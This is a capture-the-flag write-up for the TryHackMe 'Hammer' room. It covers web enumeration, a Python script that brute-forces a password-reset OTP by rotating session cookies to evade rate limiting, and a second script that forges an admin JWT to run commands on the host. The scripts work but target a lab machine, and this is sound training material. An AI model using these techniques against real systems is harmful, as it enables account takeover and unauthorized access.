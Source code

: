 ## THM CTF - Hammer

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   hammer.thm
```
Now we can proceed with an Nmap scan.
```
sudo nmap -sS -T4 -p- hammer.thm
sudo nmap -sS -sV -sC -T4 -p22,1337 hammer.thm
```
We’ve found two open ports, but for now, we’re focusing on **HTTP**. We’ll leave the SSH port open for later if we need it.

We can ignore all other Nmap scans for now because we need to test a web application. However, the scan reveals that the ```HTTPOnly flag``` for cookies isn’t set.

Connecting to the site at ```http://hammer.thm:1337```, we find a login page.

Examining the page’s HTML, we read a developer note that should be deleted for security reasons.
```
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```
Keeping this information for later use, we can try to authenticate and analyse the site response to a bad authentication.

The request sends to the server:
* PHPSESSID as cookie
* email
* password

At the bottom of the login page, there is a ```"forgot your password?"``` link.
However, it seems we are at a dead end because we have no clue about any possible email to submit.

We turn back to the Dev Note found before.

We can list directories using ```Gobuster``` or ```Dirb```, but we need to modify the ```common.txt``` file to follow the new pattern. We can easily achieve this by using the sed or awk command.
```
cp /usr/share/wordlists/dirb/common.txt .
sed 's/^/hmr_/' common.txt > common_hmr.txt
```
With this new file, we can launch two different ```Gobuster``` enumerations.
```
gobuster dir -u http://hammer.thm:1337 -w common_hmr.txt
gobuster dir -u http://hammer.thm:1337 -w common.txt -x html,js,txt,php,db,json,log
```
The first one successfully enumerates 4 folders:
* /hmr_css 
* /hmr_images
* /hmr_js
* /hmr_logs  

For now the most interesting is:
* hmr_logs

Visiting this folder, it reveals an ```error.logs``` file that contains some useful information:
* LimitInternalRecursion error with a limit of 10
* user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
* /admin-login
* /var/www/html/locked-down

At least now we have a valid email to use.

The second scan successfully enumerates some interesting files/folders like:
* composer.json - reveals to us that the site use firebase/php-jwt 6.10
* /vendor
* /javascript
* dashboard.php - maybe the landing page after a successful login procedure
* /phpMyAdmin

Now we can try a password recovery with the newest found email:
* tester@hammer.thm

The new page ask for a 4 digit code with a countdown. However submitting a code gives us the opportunity to analyse the request containing 2 parameters:
* recovery code
* s - it represents the number of seconds remaining until the countdown ends when we submitted the form.

This implies that we could potentially control the countdown.

Trying various code, after maybe 9 tries we receive the message:
```
Rate limit exceeded. Please try again later.
```
So the main problem now is the number of attempt for every password reset request.
However we cannot try again, but one way this site can control this behaviour is thanks to ```Javascript``` and ```Cookies```.

We can try to request a new ```Cookie``` deleting the old one. It works. We can reset the password again, however we need a new code, so this is a partial victory.

Open ```BurpSuite``` and analyse the traffic intercepted while submitting the code. ```Send to the repeater```.

In the response header we find the value:
* Rate-Limit-Pending: 6

The server stores the number of our failed attempts to submit the correct code.

While analysing the response, we sent another request with ```s=174```. However the real timer was expired and the server response is:
```
Time elapsed. Please try again
```
We can deduce that this time is controlled server-side.

Analysing all this information, we can deduce that we can’t bypass the timer. However, we might be able to exceed the maximum attempt limit by using a fresh ```Cookie``` before the last one expires. This would give us 9 more tries every time we change the ```Cookie```.

We need to create a script to automate all this process.

<details><summary><h3>brute_OTP_Hammer_THM.py</h3></summary>
  
```python

import requests
# from concurrent.futures import ThreadPoolExecutor

# Define the URLs for password recovery
hammer_ip = 'hammer.thm'
hammer_port = '1337' # default 80
hammer_full = f'{hammer_ip}:{hammer_port}'
hammer_url = f'http://{hammer_ip}:{hammer_port}'
recovery_url = f'{hammer_url}/reset_password.php'

# Define password recovery credentials
credentials = {
    'email': 'tester@hammer.thm'
}

# Function to get a fresh cookie
def get_cookie(url,payload):
	headers={
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
	}

	session = requests.Session()
	response = session.post(url, headers=headers, data=payload)
	return session, session.cookies.get("PHPSESSID", None)

# Function to brute force OTP
def submit_code(session, url, code):
	payload={
		'recovery_code': code,
		's': '160'
	}
	headers={
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
	}

	response = session.post(url, headers=headers, data=payload)
	return response



# Code for using only one thread
# Get first cookie
session, cookie = get_cookie(recovery_url, credentials)
for i in range(10000):
	recovery_code = f"{i:04d}" # Generate codes 0000-9999
	print(f"Trying...{recovery_code}")
	
	# Submit the code
	response = submit_code(session, recovery_url, recovery_code)
	
	#Get a new cookie if the Rate-Limit-Pending = 1
	if int(response.headers['Rate-Limit-Pending']) <2:
		 session, cookie = get_cookie(recovery_url,credentials)

	# Break the loop if we find a valid code and print the cookie to use
	if "Invalid" not in response.text and response.status_code in (302,200):
		print(f"FOUND------ valid code found {recovery_code}")
		print(f"USE this cookie: {cookie}")
		break


"""
# Worker function for threads
def worker(recovery_code):
    # Create a new session and fetch a cookie for this thread
    session, cookie = get_cookie(recovery_url, credentials)

    # Attempt the recovery code
    response = submit_code(session, recovery_url, recovery_code)

    if "Invalid" not in response.text and response.status_code in (302,200):
        print(f"Valid code found by thread: {recovery_code}. Cookie {cookie}")
        return 200

# Multithreaded execution
with ThreadPoolExecutor(max_workers=10) as executor:
    codes = [f"{i:04d}" for i in range(10000)]  # Generate codes 0000-9999
    results = list(executor.map(worker, codes))
    if results == 200:
        exit()

# Filter out None results to find valid codes
valid_codes = [code for code in results if code]
print("Valid codes found:", valid_codes)
"""
```

</details>

The code is written for a single thread, which proved sufficient to find the code within the specified timeframe of 180 seconds. However, we can leverage the assistance of the AI to develop a multithreaded code that can potentially enhance its speed.

We have found a valid ```Cookie```, so we can navigate to recovery page, insert the email, change the ```Cookie```, refresh and now we can change the password.

After logging in we find the ```first flag```, however after a little while, we are automatically logged out.

Analysing the page content, we discover a script that checks for a specific ```Cookie``` ```persistenceSession```. If the ```Cookie``` is expired, it prompts our logout.
We can simply change the ```Cookie``` expiration time to obtain a longer session.

Now we need to find a way to read the content of the file ```/home/ubuntu/flag.txt```, however the console accept only ```ls``` as command.

Diving deep in the ```Cookie``` session we find a ```token``` that seems like a ```JWT```.

Using [JWT.io](https://jwt.io) we can identify it as a token for a normal user.

We can change the ```role``` to ```admin``` but we do not know the secret code of the key:
```
"kid": "/var/www/mykey.key"
```
However while using the console and sumbitting the ```ls``` command, we noticed a ```188ade1.key``` that can be used to produce a new ```JWT```.

We can download it a change the ```JWT``` accordingly using the secret inside.
```
wget http://hammer.thm:1337/188ade1.key
```
[JWT.io](https://jwt.io)
```
"kid": "/var/www/html/188ade1.key"
"role": "admin"
"secret" : 188ade1.key secret
```
Now we need to use ```BurpSuite``` to submit a command.
Sending the request to the repeater, we need to change the old ```JWT``` to the new one, both in ```token``` field and ```Authorisation: Bearer```, changing also the ```command```.
```
"command": "cat /home/ubuntu/flag.txt"
```
This way we can obtain the second flag in the response.

Note: to generate a new JWT token, we can use the python code attached and not only the site [JWT.io](https://jwt.io).


<details><summary><h3>generate_JWT_Hammer_THM.py</h3></summary>
  
```python

import jwt
from datetime import datetime

# Secret key
secret_key = "INSERT SECRET KEY HERE"

# JWT header'
header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/188ade1.key"
}

# Set JWT Issued at Time and Expiration Time

iat = int(datetime(2025, 1, 28, 18, 0).timestamp())
exp = int(datetime(2025, 1, 28, 19, 0).timestamp())

# Payload with the 'admin' role
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": iat, # change this Value to be Issued at Time that you need
    "exp": exp, # change this value to be coherent with expiration date
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "admin"
    }
}

# Encode the JWT
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)

# Print the token
print(token)

```
</details>
